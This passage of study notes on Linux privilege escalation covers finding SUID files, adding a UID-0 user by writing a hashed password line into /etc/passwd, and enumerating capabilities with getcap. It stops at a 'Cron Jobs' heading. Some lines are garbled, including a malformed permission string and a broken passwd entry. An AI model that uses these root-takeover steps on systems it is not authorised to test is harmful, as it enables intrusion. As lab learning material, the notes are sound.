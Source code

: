 You will notice these files have an `s` bit set showing their special permission level.

Eg : -rwsr-wr-rwx root bin/bash/nano

`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.

# Adding a new user with root priv in Linux

1. We will need the hash value of the password we want the new user to have. This can be done quickly using the `openssl` tool on Kali Linux.

`openssl passwd -1 -salt THM password1` "password1" is our password

2. We will then add this password with a username to the `/etc/passwd` file.

`hacker:$1$THM$WnbwlliCqxFRQepUTCkUT1:0:0root:/root:/bin/bash`

3. login with user & pass

`su hacker` 

# Privilege Escalation: Capabilities [Article](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

- Capabilities are those permissions that divide the privileges of kernel user or kernel level programs
into small pieces so that a process can be allowed sufficient power to perform specific privileged tasks.

Suppose the system administrator wants to grant superuser permission for any binary program, let’s say for python3, 
which should only be available to a specific user, and admin doesn’t want to give SUID or sudo permission. The admin
supposed to used capabilities, for the python3 program that should be executed by specific user let’s say for user “demo”. 
This can be accomplished with following commands on the host machine.

   `which python3`

   `cp /usr/bin/python3 /home/demo/`

   `setcap cap_setuid+ep /home/demo/python3`

### Capabilities commands

We can use the `getcap` tool to list enabled capabilities.

When run as an unprivileged user, `getcap -r /` will generate a huge amount of errors, so it is good practice to redirect the error messages to `/dev/null`

`getcap -r / 2>/dev/null`

To check if the file has root permission `ls -l filename` Eg. `ls -l /usr/bin/vim`

# Corn Jobs
